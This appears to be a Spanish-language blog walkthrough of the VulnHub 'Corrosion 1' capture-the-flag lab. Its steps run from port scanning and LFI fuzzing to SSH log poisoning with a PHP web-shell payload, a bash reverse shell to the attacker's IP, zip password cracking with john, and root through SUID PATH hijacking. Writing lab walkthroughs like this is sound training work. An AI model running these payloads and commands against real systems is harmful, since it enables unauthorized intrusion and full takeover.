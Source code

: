 ```yaml
---
layout: single
title: Corrosion 1 - VulnHub
excerpt: " The goal of this capture the flag is to gain root access to the target machine. The difficulty level is marked as easy. As a hint, it is mentioned that enumerating properly is the key to solving this CTF. Prerequisites would be knowledge of Linux commands and the ability to run some basic pentesting tools."
date: 2023-02-07
classes: wide
header:
  teaser: /blog/assets/images/vh-writeup-corrosion1/corrosion1.jpeg
  teaser_home_page: true
  icon: /blog/assets/images/vulnhub.webp
categories:
  - vulnhub
tags:
  - ssh
  - log
  - poisoning
  - john
  - LFI
---
```


The goal of this capture the flag is to gain root access to the target machine. The difficulty level is marked as easy. As a hint, it is mentioned that enumerating properly is the key to solving this CTF. Prerequisites would be knowledge of Linux commands and the ability to run some basic pentesting tools.

# Summary
- IP: 192.168.0.108
- Ports: 22,80
- OS: Linux (Ubuntu Bionic)
- Services & Applications:
	-  22 -> OpenSSH 8.4p1 Ubuntu 5ubuntu1
	-  80 -> Apache httpd 2.4.46

# Recon

- Escaneo básico de puertos:

```bash
$nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.0.108 -oG allPorts
```


- Escaneo profundo de puertos encontrados:

```bash
$nmap -p22,80 -sCV 192.168.0.108 -oN targeted
```


- Escaneo de directorios con gobuster:

```bash
$gobuster dir -u 192.168.0.108 -w /usr/share/SecLists/Discovery/Web-Content/common.txt -t 100
```

	- Enumeramos los directorios: "/tasks"  "/blog-post"

- Buscamos archivos o directorios dentro de "blog-post":

	- Enumeramos los directorios "/archives" "/uploads"


# Análisis de página web:

- En la página principal vemos la ventana por defecto de apache, en el directorio que encontramos en la fase de reconocimiento "/blog-post/archives" podemos visualizar un archivo "randylogs.php", lo abrimos y no podemos visualizar nada ni ver en que consiste.


# LFI a RCE con archivo php vulnerable:

- Fuzzeamos el archivo php que encontramos para comprobar si es vulnerable a LFI:

```bash
$wfuzz -c -u http://192.168.0.108/blog-post/archives/randylogs.php?FUZZ=/etc/passwd -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --hl=0
```

- Obtenemos que el parámetro "file" devuelve más de 0 caracteres como respuesta, probamos introduciéndolo en la página y efectivamente nos arroja el contenido del archivo "/etc/passwd".

- Tratamos de convertir este LFI en RCE, primero buscando si existen logs SSH:

```
http://192.168.0.108/blog-post/archives/randylogs.php?file=/var/log/auth.log
```

- Vemos que si existe el archivo "auth.log" y podemos visualizarlo, aprovechamos esto para hacer un SSH log poisoning.

# SSH Log Poisoning:

- En la máquina atacante, intentamos loguearnos via SSH, introduciendo, en lugar de un usuario normal, código PHP el cual nos permita ejecutar comandos mediante el parámetro "get":

```
ssh '<?php system($_GET["cmd"]); ?>'@192.168.0.108
```

- Ahora, si recargamos la página que apunta al fichero "auth.log" y al final del link le concatenamos el ampersan y el parámetro cmd con cualquier comando, este se debería ejecutar y mostrarnos en pantalla el resultado:

```
view-source:http://192.168.0.108/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=ls -l /
```

- Con esto confirmamos el RCE y entablamos una reverse shell básica para ganar acceso al sistema; haciendo el respectivo tratamiento a la tty.

```
view-source:http://192.168.0.108/blog-post/archives/randylogs.php?file=/var/log/auth.log&cmd=bash -c "bash -i >%26 /dev/tcp/192.168.0.106/443 0>%261"
```

# ESCALANDO PRIVILEGIOS:

- Buscamos en el directorio "/var/backups" y vemos un archivo zip llamado "user_backup.zip" con permisos de lectura.

- Lo transferimos a nuestra máquina atacante y lo intentamos descomprimir; al ver que nos pide contraseña, la intentamos romper con John:

```bash
$zip2john user_backup.zip > pass.hash
$john -w:/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt pass.hash
```

- Obtenemos una contraseña; descomprimimos el archivo:

```bash
$unzip user_backup.zip
```

- Vemos un archivo con credenciales del usuario "randy" la usamos para pivotar a dicho usuario:

$su randy

- Buscamos permisos SUID y encontramos lo siguiente:

```
/home/randy/tools/easysysinfo
```

- Analizamos dicho binario con "strings" y nos damos cuenta que en parte del mismo ejecuta el binario "cat" mediante ruta relativa, lo cual podemos explotar con PATH hijacking, ya que el propietario del binario es root y tenemos permisos SUID:

```bash
$touch /tmp/cat
$chmod +x /tmp/cat
$nano /tmp/cat
```

```
chmod u+s /bin/bash
```

```
export PATH=/tmp:$PATH
```

- Ahora ejecutamos el binario y habremos otorgado permisos SUID a la bash:

```bash
$./easysinfo
```

- Ejecutamos la bash con privilegios y seremos root:

```bash
$bash -p
```
